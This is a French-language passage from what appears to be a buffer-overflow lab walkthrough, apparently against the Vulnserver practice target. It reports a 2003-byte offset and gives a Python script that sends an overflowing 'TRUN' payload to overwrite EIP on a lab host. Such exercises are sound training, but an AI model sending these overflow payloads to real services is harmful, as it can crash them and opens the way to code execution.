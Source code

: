 ![Analyse dans le débugueur](./Analyse.png)

Calcul de l’offset exact :

![Résultat](./Offset.png)

✅ **Offset trouvé à 2003 octets**

---

### Étape 3 : Contrôle de l’EIP

Validation du contrôle de l’EIP :

```python
#!/usr/bin/python
import sys, socket

shellcode = "A" * 2003 + "B" * 4
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.27', 9999))
    payload = "TRUN /.:/" + shellcode
    s.send((payload.encode()))
    s.close()
except:
    print("Erreur lors de la connexion au serveur")
    sys.exit()

```
